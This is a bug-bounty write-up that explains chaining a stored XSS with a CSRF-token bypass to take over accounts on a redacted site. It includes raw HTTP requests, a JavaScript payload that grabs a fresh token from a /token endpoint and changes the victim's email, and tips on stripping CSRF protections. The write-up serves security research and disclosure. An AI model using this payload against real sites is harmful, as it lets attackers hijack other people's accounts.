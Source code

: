 ```yaml
---
layout: post
title: XSS to Account Takeover - Bypassing CSRF Header Protection and HTTPOnly Cookie
excerpt: "When doing a Bug Hunting and finding a Stored XSS bug, usually the imagination will get a big enough bounty has been spinning around on the head. But sometimes the imagination fades when we try to insert document.cookie into the XSS payload and what appears is.."
tags: [bug hunting, hacking, csrf, xss, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5d02f144bca472117661e342a29bf504-f.png
---
```


بسم الله الرحمن الرحيم


When doing a Bug Hunting and finding a Stored XSS bug, usually the imagination will get a big enough bounty has been spinning around on the head. But sometimes the imagination fades when we try to insert document.cookie into the XSS payload and what appears is:

![Blank Cookie](/assets/5d02f144bca472117661e342a29bf504-1.png)

Popup alerts are expected to display cookies from the target website but instead display nothing because _the cookies on the website are set HTTPOnly so that they cannot be accessed by javascript_.

When you find something like this, usually the next option is to make a request using **XHR** to ‘force’ users to take sensitive actions without their knowledge. For example, changing passwords or changing email addresses.

And when will do that, requests are sent as follows:

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: 3005c34f-4cea-4470-afe8-045f1c14a2af
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=3005c34f-4cea-4470-afe8-045f1c14a2af;

{"email":"pwn@1337.com"}
```

Seen in the request header there is a `csrf` token that aims to prevent **CSRF** attacks. So the exploitation process becomes more difficult because there is a **CSRF** header that changes every time a request is made.

When viewed closely, the request header and cookie have `csrf-tokens` with the same value. So I tried to change the two values into another value, but still the same.

Request:

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: asu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=asu;

{"email":"pwn@1337.com"}
```


Response:

```
{"changingEmailCompleted":true}
```


Boom! It turned out that the email was successfully changed using this method. This means we can manipulate the `csrf-token` in the header to anything as long as the value is the same as the `csrf-token` in the cookie.

Since we cannot access cookies, I have tried adding new cookies using the following script:

```html
<script>document.cookie="csrf-token=asu";</script>
```

When trying to make a request, the response is as follows:

![CSRF Detected](/assets/5d02f144bca472117661e342a29bf504-2.png)

Why does the `Possible CSRF attack detected` message appear ?

When rechecking is done, the request turns out to be like this:

```
POST /user/changeEmail HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: asu
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: csrf-token=asu; JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=0b84028f-35de-4bd6-bf72-a0a776a7b3f2;

{"email":"pwn@1337.com"}
```


There appear 2 cookies named `csrf-token`, this seems to be the cause of the error earlier.


Since we don’t do anything to the cookies, all we can use here is `csrf-token` in the request header. But of course we must get a valid value.

This website is built using AngularJS, there is no `csrf-token` value stored in the HTML code, and the value of the `cookie` changes with every request.

Wait, `always changing every request?` This means that there are times when the server sends a new `cookie` to the browser. So I tried to find out when that moment happened.

Then a background request is found to the endpoint `/token` as follows:

Request:

```
POST /token HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 84
Sec-Fetch-Mode: cors
csrf-token: 0b84028f-35de-4bd6-bf72-a0a776a7b3f2
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Content-Type: application/json; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7,eu;q=0.6
Cookie: JSESSIONID=_zo6sV5qYkxhYwSCULJ4KRzOqP3G_-xVma2rKVPo; csrf-token=0b84028f-35de-4bd6-bf72-a0a776a7b3f2;
```

Response:

```
HTTP/1.1 200 OK
Content-Type: application/json;charset=UTF-8
Connection: close
Date: Fri, 04 Oct 2019 15:08:38 GMT
Server: nginx
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Cache-Control: no-cache, no-store, must-revalidate
Set-Cookie: csrf-token=725d97de-550d-4644-9579-d4b3e1209ded; path=/; secure; HttpOnly
X-XSS-Protection: 1; mode=block
Pragma: no-cache
csrf-token: 725d97de-550d-4644-9579-d4b3e1209ded
Content-Security-Policy: frame-ancestors 'self'
X-Content-Type-Options: nosniff
[...]
```

It can be seen that when making a request to endpoint `/token`, the server responds by giving a new `csrf-token` cookie. Then we can use this request to retrieve the `csrf-token`, using a script like the following:


```javascript
var xhr = new XMLHttpRequest();
var method = 'GET';
var url = 'https://redacted.com/token';
xhr.open(method,url,true);
xhr.send(null);

xhr.onreadystatechange = function()
{
 var token = xhr.getResponseHeader('csrf-token');
 alert(token);
}
```


And the **CSRF Token** was successfully obtained!


![CSRF Token](/assets/5d02f144bca472117661e342a29bf504-3.png)


Finally, just combine it with the request to change the email earlier.

```javascript
var xhr = new XMLHttpRequest();
var method = 'GET';
var url = 'https://redacted.com/token';
xhr.open(method,url,true);
xhr.send(null);

xhr.onreadystatechange = function()
{
 var token = xhr.getResponseHeader('csrf-token'); // ngambil token dari response header

 xhr.open("POST","https://redacted.com/user/changeEmail", true);
 xhr.withCredentials="true";
 xhr.setRequestHeader("csrf-token", token);
 xhr.setRequestHeader("Content-type", "application/json; charset=UTF-8");
 xhr.send('{"email":"pwn@1337.com"}');
}
alert('Ups, You\'re pwned!');
```


And the email address was successfully changed.

![Pwn](/assets/5d02f144bca472117661e342a29bf504-4.png)


#### Conclusion

- When finding a Stored XSS but cannot get a cookie, don’t report it immediately because it is likely that the severity will decrease.
- Try to do chaining with other bugs, CSRF for example to perform sensitive actions
- When finding CSRF Protection, try to delete it or change its value to null, sometimes something magical can work.
- Look for other endpoints that can be used to obtain a valid CSRF Token.